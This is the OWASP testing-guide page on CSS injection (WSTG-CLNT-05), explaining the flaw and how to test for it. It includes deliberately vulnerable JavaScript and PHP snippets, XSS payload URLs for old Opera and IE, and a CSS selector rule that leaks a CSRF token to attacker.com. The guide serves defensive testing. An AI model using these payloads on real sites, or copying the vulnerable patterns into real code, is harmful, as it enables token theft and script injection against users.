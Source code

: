```yaml
---

layout: col-document
title: WSTG - Stable
tags: WSTG

---
```

# Testing for CSS Injection

|ID             |
|---------------|
|WSTG-CLNT-05|

## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site which is rendered inside a victim's browser. The impact of this type of vulnerability varies based on the supplied CSS payload. It may lead to cross site scripting or data exfiltration.

This vulnerability occurs when the application allows user-supplied CSS to interfere with the application's legitimate stylesheets. Injecting code in the CSS context may provide an attacker with the ability to execute JavaScript in certain conditions, or to extract sensitive values using CSS selectors and functions able to generate HTTP requests. Generally, allowing users the ability to customize pages by supplying custom CSS files is a considerable risk.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the `location.hash` (source) which reaches the `cssText` function (sink). This particular case may lead to DOM-based XSS in older browser versions; for more information, see the [DOM-based XSS Prevention Cheat Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.md).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

The attacker could target the victim by asking them to visit the following URLs:

- `www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/\#red;-:expression(alert(URL=1));` (IE 7/8)

The same vulnerability may appear in the case of reflected XSS, for example, in the following PHP code:

```html
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Further attack scenarios involve the ability to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors, leading to the exfiltration of data, for example, CSRF tokens.

Here is an example of code that attempts to select an input with a `name` matching `csrf_token` and a `value` beginning with an `a`. By utilizing a brute-force attack to determine the attribute's `value`, it is possible to carry out an attack that sends the value to the attacker's domain, such as by attempting to set a background image on the selected input element.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Other attacks using solicited content such as CSS are highlighted in [Mario Heiderich's talk, "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA) on YouTube.

## How to Test

Code should be analyzed to determine if a user is permitted to inject content in the CSS context. Particularly, the way in which the website returns CSS rules on the basis of the inputs should be inspected.

The following is a basic example:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

The above code contains a source `location.hash`, controlled by the attacker, that can inject directly in the `style` attribute of an HTML element. As mentioned above, this may lead to different results depending on the browser in use and the supplied payload.

The following pages provide examples of CSS injection vulnerabilities:

- [Password “cracker” via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://code.google.com/p/domxsswiki/wiki/CssText)

For further OWASP resources on preventing CSS injection, see the [Securing Cascading Style Sheets Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
